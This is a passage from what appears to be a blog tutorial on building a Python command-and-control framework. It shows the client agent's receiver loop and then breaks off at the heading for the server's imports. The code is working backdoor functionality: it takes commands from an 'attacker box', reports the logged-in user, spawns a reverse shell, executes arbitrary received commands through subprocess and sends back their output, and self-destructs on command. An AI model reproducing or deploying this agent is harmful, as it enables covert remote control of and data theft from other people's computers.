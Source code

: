 ```python
def receiver(client):

    while True:
        try:
            #this checks to see if the agent is still alive and receiving data
            data=client.recv(1024)
        except:
            print("server must have died...time to hop off")
            client.close()
            os._exit(0)
        data=data.decode('UTF-8') #get the commands we're sending from the attacker box

        if ":msg:" in data:
            print(data)
        if ":whoami:" in data:
            whoami=os.getlogin()
            client.send(whoami.encode())

        if ":shell:" in data: #start the reverse shell!
            exit_event.clear()

            handler_thread2 = threading.Thread(target=startrevshellcli)
            handler_thread2.daemon = True
            handler_thread2.start()
            while not exit_event.is_set():
                time.sleep(1)
        if "c0mm@nd" in data: #does a curl ifconfig.me to get public ip
            command=data.split("\n")
            command=command[1]
            print("command: ", command)
            proc = subprocess.Popen(command,
                            stdin=subprocess.PIPE,
                            stdout=subprocess.PIPE,
                            stderr=subprocess.PIPE)
            client.send(b"returned output: \n"+proc.stdout.read())
            proc.stdin.close()
            proc.terminate()

        if "self-destruct" in data: #kill the agent!
            client.close()
            os._exit(0)
```

Okay, so the `Client` was easy.  The `Server`, which is our main command and control center, is a bit more complex.  I'm running the server code on Linux btw.  Feel free to run it on Windows if you're so inclined.  it'll work but it's a bit buggy at the moment.  I've tried to include some checks to help make things cooperate nicely, where it's operating system agnostic. 😄

***The C2 Server!!!***
-

> The Imports and other important stuff
